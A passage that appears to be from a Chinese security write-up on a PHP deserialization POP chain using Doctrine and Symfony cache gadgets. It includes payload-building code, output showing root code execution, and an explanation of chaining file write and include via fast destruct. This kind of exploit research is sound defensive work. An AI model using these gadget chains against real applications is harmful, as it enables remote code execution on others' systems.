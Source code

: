 ```plain
    {
        public $file = "/tmp/aaa.mocksess"; // fixed at the time
    }
}

namespace PopChain
{

use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;
use Symfony\Component\Cache\Adapter\PhpArrayAdapter;

$obj = new CacheAdapter();
$obj->cache = new PhpArrayAdapter();

$obj->deferredItems = [new TypedCacheItem()];
echo serialize($obj);
}
```

当反序列化时，POP 链成功地到达了 `require` 代码，所以之前写在 `/tmp/aaa.mocksess` 中的 PHP 代码成功执行了了，触发了系统上的代码执行。

```plain
$ php unserialize.php 
a:1:{i:0;s:33:"uid=0(root) gid=0(root) groups=0(root)
phpinfo()
PHP Version => 8.1.15

System => Linux 184f5674e38c 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64
Build Date => Feb  9 2023 08:04:45
```

## 第四步，联合两条链

现在已经看到了如何生成两个链，仍然需要讨论一些细节来使它们一起协同完成攻击。事实上，这些 pop 链可以很好地协同工作，第一次触发文件写入，第二次触发文件包含。但是，下面也可以在一次反序列化中同时触发它们。

由于 POP 链由两条链组成，因此必须使用快速析构（Fast destruct）来强制执行这两条链。

快速析构是一种用于在反序列化后立即强制调用 `__destruct()` 函数的方法。由于已经完全控制了在反序列化的字符串中定义的对象，因此有可能创建异常状态，例如在数组中定义两次相同的索引。这将立即触发对象上的 `__destruct()` 调用。在下面的示例中，快速析构将在 `\Namespace\Object1` 和 `\Namespace\Object2` 上被调用，而不是在 `\Namespace\Object3` 上被调用。

快速析构定义的方案。

[![](assets/1698893201-d683399ee975d14b55e05b5d7e4e26cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231028001830-77ada276-74e4-1.png)
